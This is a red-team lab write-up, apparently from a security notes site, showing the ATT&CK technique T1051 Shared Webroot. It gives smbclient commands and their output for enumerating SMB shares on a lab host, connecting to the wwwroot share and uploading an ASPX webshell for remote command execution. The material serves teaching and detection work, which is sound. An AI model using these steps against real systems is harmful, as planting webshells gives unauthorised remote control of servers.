 ```yaml
---
description: Lateral Movement
---
```


# T1051: Shared Webroot

## Execution

Enumerating a victim host `10.0.0.6` for shared webroot:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
smbclient -L //10.0.0.6 -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	CertEnroll      Disk      Active Directory Certificate Services share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	temp            Disk      
	tools           Disk      
	transcripts     Disk      
	wwwroot         Disk      
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Logging in to the wwwroot:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
smbclient //10.0.0.6/wwwroot -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 25 16:57:52 2018
  ..                                  D        0  Sat Aug 25 16:57:52 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Uploading a webshell:

```csharp
put /usr/share/webshells/aspx/cmdasp.aspx c.aspx

putting file /usr/share/webshells/aspx/cmdasp.aspx as \c.aspx (341.8 kb/s) (average 341.8 kb/s)
smb: \> ls
  .                                   D        0  Sat Aug 25 16:59:47 2018
  ..                                  D        0  Sat Aug 25 16:59:47 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  c.aspx                              A     1400  Sat Aug 25 16:59:47 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018

		6463487 blocks of size 4096. 3032260 blocks available
```

![](../.gitbook/assets/webroot-ownage.png)

Attacker executing shell commands via a webshell:

![](../.gitbook/assets/webroot-rce.png)

## Observations

See T1108: Webshells for observations:

{% page-ref page="t1108-redundant-access.md" %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1051\",\"type\":\"link\",\"title\":\"Shared Webroot - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}


